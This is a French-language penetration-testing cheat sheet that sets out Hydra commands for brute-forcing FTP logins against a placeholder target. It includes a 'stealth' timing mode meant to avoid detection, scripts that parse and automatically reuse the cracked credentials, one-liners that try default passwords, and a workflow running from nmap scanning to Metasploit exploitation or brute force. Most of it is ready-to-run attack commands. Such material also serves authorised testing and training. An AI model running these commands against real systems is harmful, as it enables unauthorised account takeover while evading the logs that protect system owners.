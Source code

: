### Hydra avec options de stealth
```bash
# Mode furtif (éviter détection)
hydra -l admin -P passwords.txt -t 1 -w 5 -f ftp://target

# Mode normal
hydra -l admin -P passwords.txt -t 8 -f ftp://target

# Mode agressif (attention aux logs)
hydra -l admin -P passwords.txt -t 32 -f ftp://target
```

**Explications timing :**
- `-t 1 -w 5` : 1 thread, 5 sec entre tentatives (furtif)
- `-t 8` : 8 threads (équilibré) 
- `-t 32` : 32 threads (rapide mais détectable)

### Traitement des résultats Hydra
```bash
# Hydra avec sortie formatée
hydra -L users.txt -P passwords.txt -t 16 -f -o ftp_success.txt ftp://target

# Parser les résultats
grep "login:" ftp_success.txt | cut -d' ' -f5,7

# Tester la connexion trouvée
USER=$(grep "login:" ftp_success.txt | cut -d' ' -f5)
PASS=$(grep "login:" ftp_success.txt | cut -d' ' -f7)
echo "Found: $USER:$PASS"

# Se connecter automatiquement
echo -e "$USER\n$PASS\nls\nquit" | ftp target
```

### One-liner Hydra pour tests rapides FTP
```bash
# Test ultra-rapide anonymous + admin
hydra -l anonymous -p "" ftp://target && hydra -l admin -p admin ftp://target

# Test credentials courants en one-shot
hydra -L <(echo -e "admin\nftp\nroot\nanonymous") -P <(echo -e "admin\npassword\nftp\nanonymous\n123456") -t 16 -f ftp://target
```

---

### Workflow FTP recommandé
1. **Detection** : `nmap -p21 -sV target`
2. **Anonymous test** : `nmap --script ftp-anon target`
3. **Vulnerability scan** : `nmap --script ftp-vuln-* target`
4. **Si vulnérable** : Exploitation avec Metasploit
5. **Si non vulnérable** : Brute force credentials

